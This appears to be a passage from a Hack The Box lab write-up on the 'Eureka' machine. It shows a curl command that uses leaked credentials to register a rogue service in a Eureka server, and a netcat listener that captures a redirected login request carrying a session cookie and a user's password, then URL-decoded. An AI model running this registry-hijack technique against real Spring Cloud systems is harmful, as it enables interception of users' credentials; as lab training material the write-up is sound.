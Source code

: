 We can do the same exploits like the blog said before, We can fake register a service to Eureka Server
```
oscar190@eureka:~$ curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE  -H 'Content-Type: application/json' -d '{ 
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "10.10.14.17",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.14.17",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {   
      "$": 8081,
      "@enabled": "true"
    },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}
'
```

Then we can get the feedback from our `netcat` of local machine
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Eureka]
└─$ nc -lnvp 8081                                    
listening on [any] 8081 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.66] 43518
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=NjNlMjc2OWEtZWE5Mi00YjhlLWJjY2YtMTBiNGQ4YmJiZWYx
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:40426"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.17:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=pfuihuKSv3zLoAnQDYJXqUIQUmDdWVKt1lNpZAY01Vz_2FhKlcLDvof22hjmxTrjO69jmyAjfwK-OmaAsmZaXWUE4zmbu24v
```
Then use the `url decode`, we can get the credit 
`username=miranda.wise@furni.htb&password=IL!veT0Be&BeT0L0ve` 
